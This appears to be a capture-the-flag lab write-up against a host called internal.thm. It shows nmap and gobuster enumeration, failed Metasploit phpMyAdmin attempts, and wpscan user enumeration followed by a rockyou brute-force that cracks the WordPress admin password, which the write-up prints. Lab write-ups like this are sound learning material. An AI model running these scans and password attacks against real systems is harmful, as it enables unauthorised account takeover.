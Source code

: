 nmap result(./nmap_result)  
	```nmap -v -sV -p1-65535 $TARGET_IP | tee nmap_result```

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


	
gobuster result(./gobuster_on_80)  
	```gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt | tee gobuster_on_80```

	/blog                 (Status: 301) [Size: 311] [--> http://10.10.88.179/blog/]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.88.179/wordpress/]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.88.179/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.88.179/phpmyadmin/]
	/phpmyadmin/index.php            (Status: 200) [Size: 10531]
	/phpmyadmin/templates            (Status: 403) [Size: 277]  
	/phpmyadmin/themes.php           (Status: 200) [Size: 10532]
	/phpmyadmin/themes               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/themes/]
	/phpmyadmin/doc                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/doc/]   
	/phpmyadmin/license.php          (Status: 200) [Size: 10533]                                           
	/phpmyadmin/navigation.php       (Status: 200) [Size: 10536]                                           
	/phpmyadmin/js                   (Status: 301) [Size: 320] [--> http://10.10.88.179/phpmyadmin/js/]    
	/phpmyadmin/logout.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/libraries            (Status: 403) [Size: 277]                                             
	/phpmyadmin/changelog.php        (Status: 200) [Size: 10535]                                           
	/phpmyadmin/url.php              (Status: 302) [Size: 0] [--> /phpmyadmin/]                            
	/phpmyadmin/export.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/setup                (Status: 401) [Size: 459]                                             
	/phpmyadmin/sql.php              (Status: 200) [Size: 10529]                                           
	/phpmyadmin/sql                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/sql/]   
	/phpmyadmin/locale               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/locale/]
	/phpmyadmin/import.php           (Status: 200) [Size: 10532] 
	
After examining /phpmyadmin, seemingly mysql is behind the site.  

SQLMap didn't find any parameter injectable.  

Tried every exploit on metasploit as follows, but they didn't work.   


	0  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
	1  auxiliary/scanner/http/phpmyadmin_login                                normal     No     PhpMyAdmin Login Scanner
	2  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer
	3  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
	4  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
	5  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
	6  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
	7  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
	8  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()

Scanned $TARGET_IP/blog using wordpress scanning tool, wpscan  
	```wpscan --url 10.10.111.161/blog -e vp,u```
	One user found: admin  

Using this info, bruteforced passwords  
	```wpscan --url 10.10.111.161/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50```
	Password Cracked: Username: admin, Password: my2boys  

Modifyied /etc/hosts to help resolve name(internal.thm --> $TARGET_IP)  

